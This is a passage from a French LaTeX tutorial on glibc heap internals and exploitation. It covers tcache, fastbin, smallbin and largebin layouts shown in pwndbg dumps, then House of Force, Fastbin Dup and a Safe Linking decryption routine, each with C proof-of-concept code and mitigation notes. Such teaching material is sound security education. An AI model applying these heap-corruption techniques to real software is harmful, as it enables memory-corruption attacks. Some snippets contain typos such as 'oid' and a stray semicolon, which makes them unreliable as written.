      \item \textcolor{pwndbgyellow}{\textbf{Jaune — \texttt{bk}}} :
            Pointeur vers le chunk précédent dans une liste chaînée.

      \item \textcolor{pwndbgorange}{\textbf{Orange — \texttt{bk\_nextsize}}} :
            Pointeur complémentaire à \texttt{fd\_nextsize} dans les \textit{large bins},
            permettant la navigation inverse dans la liste triée par taille.

      \item \textcolor{pwndbgdarkgreen}{\textbf{Vert foncé — \texttt{old\_payload}}} :
            Données utilisateur stockées dans le chunk.
            C'est la zone retournée par \texttt{malloc()} et modifiable par le programme.

      \item \textcolor{pwndbggreen}{\textbf{Vert — Payload}} :
            Résidu d'un chunk précédent obtenu lors d'une consolidation.

\end{itemize}

\subsection{Tcache}
\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
void *t1 = malloc(0x40), *t2 = malloc(0x100), *t3 = malloc(0x400);
strcpy(t1, "T1T1T1T1"); // T = 0x54 et 1 = 0x31
free(t1), free(t2), free(t3);
\end{minted}

Au début du programme, on n'a rien, pas de heap utilisateur.
Elle sera initialisée dès le premier \texttt{malloc}, la seule structure en place au début du programme est
la main arena qui est dans la libc. Vous pouvez voir son adresse avec \texttt{p \&main\_arena}.

Une fois que vous avez passé les trois \texttt{strcpy}, vous pouvez les retrouver avec la commande \texttt{heap}.
Vous allez ainsi voir 5 chunks, c'est normal.
Le premier chunk est un résidu de l'appel initial de \texttt{brk}, il sert à aligner le top chunk et à avoir
un premier chunk valide qui sert à la gestion des bins et à la recherche des chunks.

voici à quoi ressemble t1 une fois free:

\begin{pwndbg}[x/40bx t1 - 0x10]{text}
      0x555555559290: !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}!
      0x555555559298: !\textcolor{pwndbgred}{0x51}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}!
      0x5555555592a0: !\textcolor{pwndbgblue}{0x59}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x05}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}!
      0x5555555592a8: !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x01}! !\textcolor{pwndbgdarkgreen}{0x3a}! !\textcolor{pwndbgdarkgreen}{0x70}! !\textcolor{pwndbgdarkgreen}{0x5f}! !\textcolor{pwndbgdarkgreen}{0x9c}! !\textcolor{pwndbgdarkgreen}{0xce}! !\textcolor{pwndbgdarkgreen}{0x17}!
      0x5555555592b0: !\textcolor{pwndbgdarkgreen}{0x54}! !\textcolor{pwndbgdarkgreen}{0x31}! !\textcolor{pwndbgdarkgreen}{0x54}! !\textcolor{pwndbgdarkgreen}{0x31}! !\textcolor{pwndbgdarkgreen}{0x54}! !\textcolor{pwndbgdarkgreen}{0x31}! !\textcolor{pwndbgdarkgreen}{0x54}! !\textcolor{pwndbgdarkgreen}{0x31}!
\end{pwndbg}

Comme le montrent les couleurs, la zone utilisateur a été immédiatement écrasée par la GLIBC pour y stocker deux métadonnées critiques propres au Tcache :

En \textcolor{pwndbgblue}{bleu}, on retrouve le pointeur \texttt{fd} (forward) à la valeur 0x555555559 qui
indique l'adresse du prochain chunk libre à partir du champs utilisateur.
L'adresse semble illisible car, depuis la GLIBC 2.32, elle est protégée
par le \textit{Safe Linking}. Le pointeur n'est plus stocké en clair.
Il est masqué dynamiquement via une opération XOR utilisant
comme t1 est le premier chunk, son fd pointe sur 0

$$
      \begin{aligned}
            \text{fd}_{\text{encodé}} & =  (Adresse\_Chunk \gg 12) \oplus \text{fd}_{\text{réel}} \\
                                      & = (0x5555555592a0 \gg 12) \oplus 0                        \\
                                      & =  0x555555559
      \end{aligned}
$$


En \textcolor{pwndbgdarkgreen}{vert foncé}, on observe le pointeur \texttt{key}.
Contrairement à ce que son nom suggère, ce n'est pas une clé servant à déchiffrer
le pointeur bleu. Il s'agit d'une sécurité anti-double-free introduite
dans la GLIBC 2.29, qui pointe vers la \texttt{tcache\_perthread\_struct}.
Si l'allocateur détecte cette signature lors d'un \texttt{free()},
il parcourt préventivement la liste chaînée pour s'assurer que le bloc n'y figure pas
déjà.

\subsection{Fastbin}
\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
      void *f_min = malloc(0x10),*g1 = malloc(0x30);
      void *f_max = malloc(0x70),*g2 = malloc(0x30);
      strcpy(f_max, "FFFFFFFFFFFFFFFFFFFFFFFF"); // F = 0x46
      fill_tcache(0x10); fill_tcache(0x70);
      free(f_min); free(f_max);
\end{minted}

voici à quoi ressemble f\_max une fois free:

\begin{pwndbg}[x/40bx f\_max - 0x10]{text}
      0x555555559860: !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}!
      0x555555559868: !\textcolor{pwndbgred}{0x81}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}!
      0x555555559870: !\textcolor{pwndbgblue}{0x59}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x05}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}!
      0x555555559878: !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}!
      0x555555559880: !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}! !\textcolor{pwndbgdarkgreen}{0x46}!
\end{pwndbg}

Dans les fastbins, le \textit{safe-linking} est actif.

Si l'on souhaite retrouver le \texttt{fd} réel, on peut manipuler la formule précedente
$$
      \begin{aligned}
            \text{fd}_{\text{réel}} & = \text{fd}_{\text{encodé}} \oplus (\text{adresse}_{\text{chunk}} \gg 12) \\
                                    & = (0x555555559) \oplus (0x5555555592a0 \gg 12)                            \\
                                    & = 0
      \end{aligned}
$$

ici on trouve 0 car le chunk est seul dans le fastbin


\subsection{Smallbin}
\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
      oid *s_min = malloc(0x80), *g3 = malloc(0x30);
      void *s_max = malloc(0x3e0), *g4 = malloc(0x30);
      strcpy(s_max, "SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS"); // S = 0x53
      fill_tcache(0x80); fill_tcache(0x3e0);
      free(s_min); free(s_max);
\end{minted}


voici à quoi ressemble s\_max une fois free:

\begin{pwndbg}[x/40bx s\_max - 0x10]{text}
      0x555555559e50: !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}!
      0x555555559e58: !\textcolor{pwndbgred}{0xf1}! !\textcolor{pwndbgred}{0x03}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}!
      0x555555559e60: !\textcolor{pwndbgblue}{0x80}! !\textcolor{pwndbgblue}{0x9d}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x55}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}!
      0x555555559e68: !\textcolor{pwndbgyellow}{0x20}! !\textcolor{pwndbgyellow}{0x3b}! !\textcolor{pwndbgyellow}{0xe0}! !\textcolor{pwndbgyellow}{0xf7}! !\textcolor{pwndbgyellow}{0xff}! !\textcolor{pwndbgyellow}{0x7f}! !\textcolor{pwndbgyellow}{0x00}! !\textcolor{pwndbgyellow}{0x00}!
      0x555555559e70: !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}! !\textcolor{pwndbgdarkgreen}{0x53}!
\end{pwndbg}


Si l’on regarde l’état des bins, on s’attendrait à avoir un chunk dans l’unsortedbin
(\texttt{s\_max}) et un dans le smallbin (\texttt{s\_min}), puisque \texttt{s\_max}
est plus grand que \texttt{s\_min}. Cependant, ce n’est pas le cas, car un appel à
\texttt{free} ne déclenche jamais le tri des chunks~: il effectue uniquement une éventuelle
consolidation avec les chunks voisins.


\begin{pwndbg}[bins]{text}
      tcachebins
      0x20 [  7]: 0x5555555599f0 -> .... <-0
      0x50 [  1]: t1 <-0
      0x80 [  7]: 0x555555559d10 -> ....  <-0
      0x90 [  7]: 0x55555555a5f0 -> ....  <-0
      0x110 [  1]: t2 <-0
      0x3f0 [  7]: 0x55555555be20 -> .... <-0
      0x410 [  1]: t3 <-0
      fastbins
      0x20: 0x555555559800 <-0
      0x80: 0x555555559860 <-0
      unsortedbin
      all: s_max -> s_min -> 0x7ffff7e03b20 (main_arena+96) <- s_max
      smallbins
      empty
      largebins
      empty

\end{pwndbg}



\subsection{Largebin}
\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
    void *l_min = malloc(0x3f0);
    fill_tcache(0x3f0);
    strcpy(l_min, "LLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLLL"); // S = 4c
    free(l_min);
    malloc(0x410);
\end{minted}

Lors de l'allocation d'un grand chunk (largebin), l'allocateur parcours les différentes bins dans
l'espoir de trouver deux chunk qu'il pourrait fussioner.
tous les chunks parcourus sont ensuite directement trié et termine sois dans smallbin, sois dans
le largebin.

voici à quoi ressemble l\_min une fois free:

\begin{pwndbg}[x/56bx l\_min - 0x10]{text}
      0x55555555c200: !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}! !\textcolor{pwndbgbrown}{0x00}!
      0x55555555c208: !\textcolor{pwndbgred}{0x01}! !\textcolor{pwndbgred}{0x04}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}! !\textcolor{pwndbgred}{0x00}!
      0x55555555c210: !\textcolor{pwndbgblue}{0x10}! !\textcolor{pwndbgblue}{0x3f}! !\textcolor{pwndbgblue}{0xe0}! !\textcolor{pwndbgblue}{0xf7}! !\textcolor{pwndbgblue}{0xff}! !\textcolor{pwndbgblue}{0x7f}! !\textcolor{pwndbgblue}{0x00}! !\textcolor{pwndbgblue}{0x00}!
      0x55555555c218: !\textcolor{pwndbgyellow}{0x10}! !\textcolor{pwndbgyellow}{0x3f}! !\textcolor{pwndbgyellow}{0xe0}! !\textcolor{pwndbgyellow}{0xf7}! !\textcolor{pwndbgyellow}{0xff}! !\textcolor{pwndbgyellow}{0x7f}! !\textcolor{pwndbgyellow}{0x00}! !\textcolor{pwndbgyellow}{0x00}!
      0x55555555c220: !\textcolor{pwndbgpurple}{0x00}! !\textcolor{pwndbgpurple}{0xc2}! !\textcolor{pwndbgpurple}{0x55}! !\textcolor{pwndbgpurple}{0x55}! !\textcolor{pwndbgpurple}{0x55}! !\textcolor{pwndbgpurple}{0x55}! !\textcolor{pwndbgpurple}{0x00}! !\textcolor{pwndbgpurple}{0x00}!
      0x55555555c228: !\textcolor{pwndbgorange}{0x00}! !\textcolor{pwndbgorange}{0xc2}! !\textcolor{pwndbgorange}{0x55}! !\textcolor{pwndbgorange}{0x55}! !\textcolor{pwndbgorange}{0x55}! !\textcolor{pwndbgorange}{0x55}! !\textcolor{pwndbgorange}{0x00}! !\textcolor{pwndbgorange}{0x00}!
      0x55555555c230: !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}! !\textcolor{pwndbgdarkgreen}{0x4c}!
\end{pwndbg}

en regardant le pointeur (!\textcolor{pwndbgblue}[fd]) et le pointeur  (!\textcolor{pwndbgblue}[bk])
on remaque qu'il pointe tous les deux vers 0x00007ffff7e03f10 qui corresponds à l'adresse
de la main\_arena

De plus on remarque que le pointeur next bk et next fd pointe sur lui même

Chaque champ du chunk \texttt{l\_min} correspond exactement à la structure d’un largebin.
Le champ \texttt{prev\_size} vaut \texttt{0x0} car le bit \texttt{PREV\_INUSE} est positionné dans
le champ \texttt{size} (\texttt{0x401}, soit une taille réelle de \texttt{0x400}). Les pointeurs
\texttt{fd} et \texttt{bk} pointent tous deux vers la tête du largebin, ce qui est normal pour un
bin circulaire contenant un seul élément. Les champs \texttt{fd\_nextsize} et \texttt{bk\_nextsize}
pointent vers le chunk lui-même, car il est le seul chunk de cette classe de taille. Enfin, le
payload contient la valeur \texttt{0x4c} (caractère \texttt{'L'}), issue du \texttt{strcpy} effectué
avant le \texttt{free}.


\section{Techniques d'exploitation : Des méthodes historiques aux approches modernes}

% -----------------------------------------------------------------------------
\subsection{Vulnérabilités et Primitives}

Avant de détailler les techniques d'exploitation à proprement parler, il est essentiel de définir les vulnérabilités de base («~bugs~») qui permettent de les déclencher. Ces erreurs de programmation sont la porte d'entrée incontournable pour manipuler l'allocateur.

\subsubsection{Erreurs de cycle de vie (Dangling Pointers)}

\paragraph{Use-After-Free (UAF) :} Utilisation d'un pointeur vers un chunk après sa libération. Permet de lire des métadonnées (pour un \textit{leak}) ou de corrompre des pointeurs de chaînage (\texttt{next}/\texttt{fd}). (Ex: \textit{Tcache Poisoning}, \textit{House of Botcake})

\paragraph{Double Free :} Libération multiple d'un même chunk. Provoque des boucles dans les bins et permet d'obtenir deux pointeurs sur la même zone mémoire (\textit{aliasing}). (Ex: \textit{Fastbin Dup}, \textit{Tcache Dup})

\paragraph{Invalid Free :} Appel de \texttt{free()} sur une adresse qui n'est pas le début d'un chunk valide (par exemple : milieu d'un chunk ou adresse sur la pile). (Ex: \textit{House of Spirit})

\subsubsection{Erreurs de limites (Memory Corruption)}

\paragraph{Heap Overflow / Out-of-Bounds (OOB) :} Écriture au-delà de la zone allouée. Cible volontairement les métadonnées du chunk suivant (champ \texttt{size}, bit \texttt{PREV\_INUSE}). (Ex: \textit{House of Force}, \textit{Overlapping Chunks})

\paragraph{Off-by-one :} Cas particulier d'overflow où seul un unique octet est écrit au-delà de la limite (souvent un octet nul \verb|\0|). C'est souvent suffisant pour déclencher une consolidation invalide. (Ex: \textit{Poison Null Byte})

\subsubsection{Des vulnérabilités aux primitives d'exploitation}

Les erreurs détaillées ci-dessus ne sont généralement pas une fin en soi. Elles sont manipulées via les techniques que nous allons décrire pour obtenir des primitives:

\begin{itemize}
    \item \textbf{Arbitrary Write :} Capacité d'écrire une valeur contrôlée à une adresse arbitraire. C'est le but ultime (souvent via un détournement de pointeur de fonction) permettant de rediriger le flux de contrôle.
    \item \textbf{Arbitrary Read :} Capacité de lire le contenu de n'importe quelle adresse mémoire. Indispensable pour récupérer systématiquement les \textit{leaks} nécessaires afin de neutraliser et s'adapter à la randomisation \textit{ASLR}.
\end{itemize}

Nous présenterons dans les sections suivantes l'évolution des \textit{techniques d'exploitation} qui lient ces vulnérabilités fondamentales à nos primitives.

\subsubsection{Heap Feng Shui (Heap Grooming)}

Le \textit{heap feng shui}, ou \textit{heap grooming}, désigne un ensemble de techniques visant à façonner la disposition de la heap afin de créer une configuration mémoire favorable à l'exploitation.
L'idée est de manipuler précisément la structure du tas en effectuant des allocations et libérations de tailles soigneusement choisies, de manière à positionner des chunks à des emplacements stratégiques.
Le nom fait référence au feng shui, un système esthétique chinois ancien reposant sur l'alignement optimal des éléments dans l'espace.

Le heap feng shui s'avère particulièrement utile lorsqu'on souhaite qu'un chunk
contrôlé se retrouve à un emplacement précis et prévisible dans la heap,
par exemple pour positionner un chunk victime juste après un chunk
vulnérable (voir la section sur le \textit{Largebin Attack} pour une illustration concrète).

\subsection{Évolution des techniques et vecteurs limités}

\subsubsection{House of Force}

\noindent\textbf{Fichier de référence :} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.27/house_of_force.c}{\texttt{house\_of\_force.c}}

\paragraph{Vue d'ensemble :}
Le \textit{House of Force} est une ancienne technique de corruption de la mémoire. Elle cible le \textit{Top Chunk}, qui représente la mémoire libre restante à la fin du tas (heap). En modifiant le champ \texttt{size} du Top Chunk, un attaquant force l'espace d'adressage virtuel à boucler sur lui-même (wrap around). Cela trompe \texttt{malloc} et l'oblige à renvoyer un pointeur vers n'importe quelle adresse cible souhaitée.

\paragraph{Fonctionnement de l'attaque :}
Pour exécuter cette attaque, il faut d'abord une vulnérabilité de type \textit{heap overflow} (dépassement de tas) pour écraser les métadonnées du Top Chunk. L'attaquant écrase le champ \texttt{size} avec la valeur entière non signée maximale. Sur une architecture x64, cette valeur est \texttt{0xffffffffffffffff} ($-1$).

\paragraph{Démonstration par le code :}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdlib.h>
#include <stdint.h>
#include <malloc.h>

int main() {
    long target_variable = 0; // La variable que nous voulons écraser

    // 1. Allocation initiale pour s'approcher du Top Chunk
    long *ptr = malloc(0x100);

    // 2. Vulnérabilité : Heap Overflow écrasant la taille du Top Chunk
    // En réalité, cela se ferait via une fonction vulnérable (ex: strcpy).
    // Ici, nous simulons l'écrasement en pointant directement sur le header.
    long *top_chunk_size = ptr + (malloc_usable_size(ptr) / sizeof(long));
    *top_chunk_size = -1; // 0xffffffffffffffff

    // 3. Calcul de la distance (Evil_Size)
    // Distance = Cible - Top_Chunk_Actuel - (4 * sizeof(long))
    long evil_size = (long)&target_variable - (long)top_chunk_size - 0x20;

    // 4. Allocation pont (Bridge allocation)
    // malloc avance le pointeur du Top Chunk en utilisant notre taille calculée.
    // L'entier déborde (integer overflow) et boucle l'espace d'adressage.
    malloc(evil_size);

    // 5. L'exploitation
    // La prochaine allocation retournera l'adresse exacte de notre cible.
    long *arbitrary_write = malloc(0x20);
    *arbitrary_write = 0xDEADBEEF;

    return 0;
}
\end{minted}

La taille étant maintenant à sa limite maximale, la GLIBC considère que le Top Chunk couvre
l'intégralité de l'espace mémoire virtuel. L'attaquant calcule ensuite la distance exacte pour
atteindre l'adresse cible en utilisant cette formule :

$$Evil\_Size = Target\_Address - \space{10} Top\_Chunk\_Address - (4 \times \text{sizeof(long)})$$


Ensuite, l’attaquant effectue un appel à \texttt{malloc} en utilisant la taille
précédemment calculée. La GLIBC traite cette requête en avançant le pointeur du
Top Chunk. En raison du débordement d’entier (integer overflow), l’adresse mémoire
« boucle » dans l’espace utilisateur (wrap around). Le nouveau Top Chunk se
retrouve alors positionné juste avant l’adresse cible.

On soustrait $(4 \times \text{sizeof(long)})$ car \texttt{malloc} va créer un
chunk minimal pour conserver la cohérence du tas,
composé d’un champ \texttt{prev\_size} (8~octets), d’un champ
\texttt{size} (8~octets) et d’un payload minimal aligné sur 16~octets, soit un
total de 32~octets (\texttt{0x20}).

L'appel \texttt{malloc} suivant renverra un chunk qui chevauche directement la cible.

\paragraph{Limitations et renforcement de la GLIBC :}
Le \textit{House of Force} est totalement obsolète sur les systèmes d'exploitation modernes. La GLIBC version 2.29 a neutralisé ce vecteur d'attaque en ajoutant une vérification stricte d'intégrité. La GLIBC moderne compare désormais le champ \texttt{size} du Top Chunk avec les limites physiques réelles de l'arène principale (main arena).

Si le champ de taille dépasse les limites de mémoire réelles, la GLIBC arrête immédiatement le programme et déclenche une erreur \texttt{malloc(): corrupted top size}. En raison de cette atténuation, cette technique ne peut plus être utilisée dans l'exploitation moderne.

\subsubsection{Fastbin Dup}

\noindent\textbf{Fichier de Référence:} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/fastbin_dup.c}{\texttt{fastbin\_dup.c}}

\paragraph{Vue d'ensemble:}
Le \textit{Fastbin Dup} est une vulnérabilité classique de type \textit{double free}. Elle cible les Fastbins, des listes simplement chaînées LIFO. Le but de cette attaque est de tromper malloc pour qu'il place exactement le même bloc de mémoire deux fois dans une même Fastbin. Cela crée une liste circulaire, permettant d'écraser le pointeur \texttt{fd} et de détourner la prochaine allocation mémoire.

\paragraph{Fonctionnement de l'attaque:}
Le Fastbin vérifie uniquement si le bloc en train d'être libéré est en tête de la liste. Par exemple, si nous exécutons \texttt{free(A)} puis de nouveau \texttt{free(A)}, le programme plantera avec une erreur \textit{double free}.

Cependant, un attaquant peut contourner cette vérification simple en libérant un bloc différent entre les deux. Par exemple, en exécutant \texttt{free(A)}, puis \texttt{free(B)}, puis \texttt{free(A)}. La liste Fastbin ressemble maintenant à ça: \texttt{A -> B -> A}.

\paragraph{Démonstration par le code:}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
#include <stdlib.h>

int main() {
    // 1. Saturation du Tcache (7 chunks) pour forcer l'usage des Fastbins
    void *tcache[7];
    for(int i=0; i<7; i++) tcache[i] = malloc(0x20);
    for(int i=0; i<7; i++) free(tcache[i]);

    // 2. Allocation initiale des chunks cibles
    // calloc est utilisé pour contourner le comportement du Tcache,
    // car il n'utilise jamais les chunks stockés dans le tcache pour ses allocations.
    long *a = calloc(1, 0x20);
    long *b = calloc(1, 0x20);

    // 3. Vulnérabilité : Double Free dans le Fastbin
    free(a);
    free(b);
    free(a); // Contournement: La liste est maintenant A -> B -> A

    // 4. Exploitation : Récupération des pointeurs
    long *c = calloc(1, 0x20); // Retourne le pointeur 'a'
    long *d = calloc(1, ;0x20); // Retourne le pointeur 'b'
    long *e = calloc(1, 0x20); // Retourne le pointeur 'a' à nouveau !

    // L'attaquant possède maintenant deux pointeurs (c et e) 
    // qui pointent vers la même adresse physique.
    return 0;
}
\end{minted}

\begin{pwndbg}[bins]{text}
    tcachebins
    empty
    fastbins
    0x20: 0x5555555593e0 !\textcolor{pwndbgblue}{->}! 0x555555559400 !\textcolor{pwndbgblue}{<-}! !\textcolor{pwndbgred}{0x5555555593e0 (loop)}!
    unsortedbin
    empty
    smallbins
    empty
    largebins
    empty
\end{pwndbg}

Étant donné que la liste est corrompue, lorsque l'application alloue à nouveau ces chunks, l'allocateur renvoie deux pointeurs vers exactement le même espace mémoire physique. L'attaquant peut utiliser le premier pointeur pour écrire une adresse cible dans le pointeur \texttt{fd} du chunk. La prochaine fois que l'allocateur retirera un chunk du Fastbin, il suivra aveuglément ce pointeur \texttt{fd} corrompu et renverra l'adresse cible de l'attaquant.

\paragraph{Limitations et renforcement de la GLIBC :}
Bien que la séquence \texttt{free(A) -> free(B) -> free(A)} fonctionne encore techniquement dans la GLIBC 2.41, l'exploiter est difficile aujourd'hui car la surface d'attaque est considérablement réduite.

Pour exécuter cette attaque dans un environnement moderne, un attaquant doit déjouer trois principales mesures d'atténuation :
\begin{enumerate}
    \item \textbf{Priorité du Tcache (GLIBC 2.41+) :} L'attaquant doit d'abord remplir complètement le Tcache avant que l'allocateur n'envoie les chunks libérés dans les Fastbins. Ensuite, il doit vider complètement le Tcache avant de pouvoir récupérer le chunk corrompu depuis le Fastbin.
    \item \textbf{Safe Linking (GLIBC 2.32+) :} L'attaquant ne peut pas se contenter d'écrire une adresse cible brute dans le chunk. Les pointeurs \texttt{fd} sont protégés par un chiffrement XOR mathématique. L'attaquant doit donc impérativement posséder une fuite de mémoire (heap leak) préalable pour calculer le pointeur masqué (mangled) correct.
    \item \textbf{La mort des Hooks (GLIBC 2.34+) :} La GLIBC a complètement supprimé les hooks d'exécution tels que \texttt{\_\_malloc\_hook} et \texttt{\_\_free\_hook}. Par le passé, les attaquants utilisaient Fastbin Dup pour écraser ces hooks afin d'obtenir instantanément l'exécution de code. Aujourd'hui, même si un attaquant réussit une écriture arbitraire en utilisant Fastbin Dup, il n'y a plus de pointeurs de fonction GLIBC simples et statiques à écraser. Il sera contraint de cibler des éléments internes complexes de la GLIBC (comme les structures \texttt{\_IO\_FILE}) ou de se rabattre sur des vulnérabilités au niveau de l'application elle-même.
\end{enumerate}

\paragraph{Variantes et extensions :}
L'attaque classique présentée ici sert de base à des scénarios plus complexes permettant de contourner des contraintes spécifiques de l'application ou de l'allocateur.

\begin{itemize}
    \item \textbf{\texttt{fastbin\_dup\_consolidate.c} :} Cette variante permet d'effectuer un \textit{double free} sur le même chunk A consécutivement (\texttt{free(A); free(A);}) sans passer par un chunk intermédiaire B. L'astuce consiste à forcer une consolidation de la mémoire (via une allocation large déclenchant \texttt{malloc\_consolidate}) entre les deux appels à \texttt{free}. Cela déplace le premier chunk A du Fastbin vers l'Unsorted Bin, vidant ainsi la tête du Fastbin et neutralisant la vérification immédiate de l'allocateur.
    \item \textbf{\texttt{fastbin\_dup\_into\_stack.c} :} Il s'agit de l'application concrète du détournement de pointeur fd. Une fois le \textit{double free} réussi, l'attaquant forge un pointeur vers une adresse de la pile. Pour que \texttt{malloc} accepte de retourner ce bloc, l'attaquant doit s'assurer qu'une valeur cohérente avec la taille du bin (ex: 0x20 ou 0x30) est présente à l'emplacement mémoire simulant le champ \texttt{size} du faux chunk sur la pile.
\end{itemize}

% -----------------------------------------------------------------------------
\subsection{Techniques d'exploitation en 2026 (GLIBC 2.40/2.41)}

\subsubsection{Bypass de Safe Linking}

\noindent\textbf{Fichier de Référence:} \href{https://github.com/shellphish/how2heap/blob/master/glibc_2.41/decrypt_safe_linking.c}{\texttt{decrypt\_safe\_linking.c}}

Le mécanisme de \textit{Safe Linking}, introduit dans la GLIBC 2.32, vise à protéger les pointeurs de la \textit{freelist} (\textit{Tcache} et \textit{Fastbins}) contre les attaques comme \textit{Tcache Poisoning}. L'algorithme masque le pointeur $P$ en utilisant l'adresse de son propre emplacement mémoire $L$.

L'opération repose sur un XOR-shift déterministe :
$$C = (L \gg 12) \oplus P$$

\paragraph{Analyse de la Vulnérabilité}
Bien que cette protection complexifie l'exploitation à l'aveugle, elle ne constitue pas une barrière cryptographique forte. Deux propriétés structurelles permettent son inversion :
\begin{enumerate}
    \item Du fait du décalage de 12 bits vers la droite, les 12 bits de poids fort du masque sont nuls. Par conséquent, les 12 bits les plus significatifs du chiffré sont stockés en clair : $C_{63:52} = P_{63:52}$.
    \item La structure du XOR-shift permet de propager la connaissance des bits déchiffrés d'un bloc de 12 bits vers le suivant.
\end{enumerate}

\begin{minted}[frame=single, framesep=2mm, fontsize=\footnotesize, style=monokai, bgcolor=pwndbgbg]{c}
/* 
 * ATTENTION: Cet algorithme suppose que l'adresse de stockage 
 * et le pointeur partagent la même base (L >> 12 == P >> 12).
 * Il ne fonctionne de manière fiable que si l'ASLR est désactivé 
 * (ce qui est le cas par défaut lors du débogage sous pwndbg).
 */
long decrypt(long cipher) {
    long key = 0;
    long plain;
    for(int i = 1; i < 6; i++) {
        int bits = 64 - 12 * i;
        if(bits < 0) bits = 0;
        plain = ((cipher ^ key) >> bits) << bits;
        key = plain >> 12;
    }
    return plain;
}
\end{minted}

Avec cette méthode, la récupération des pointeurs en clair est réalisable après une fuite mémoire.

Le diagramme suivant illustre l'algorithme de déchiffrement:

\begin{figure}[H]
    \centering
    \begin{tikzpicture}[
            node distance=1.2cm,
            bitbox/.style={draw, minimum width=2.2cm, minimum height=0.8cm, font=\ttfamily\small, outer sep=0pt},
            mask/.style={fill=gray!15},
            plain/.style={fill=green!10},
